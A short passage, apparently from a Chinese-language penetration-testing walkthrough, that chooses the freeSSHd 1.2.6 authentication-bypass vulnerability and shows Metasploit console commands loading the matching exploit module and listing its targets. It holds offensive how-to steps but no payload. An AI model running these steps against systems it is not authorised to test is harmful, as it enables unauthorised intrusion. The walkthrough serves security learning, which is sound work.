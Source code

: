 ![](https://github.com/owl234/Awesome-SRC-experience/blob/main/img/1_AaTz4ZArA3hPEVmz4tdlzg.webp)

这里我们选择 “free**SSH**d 1.2.6 — Authentication Bypass (Metasploit)”漏洞。

```bash
msfconsole //打开Metasploit框架
use exploit/windows/ssh/fresshd_authbypass
show targets  //选择目标
```

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/img/1_zh9b47VDFImR3SYqO0aLtg.webp)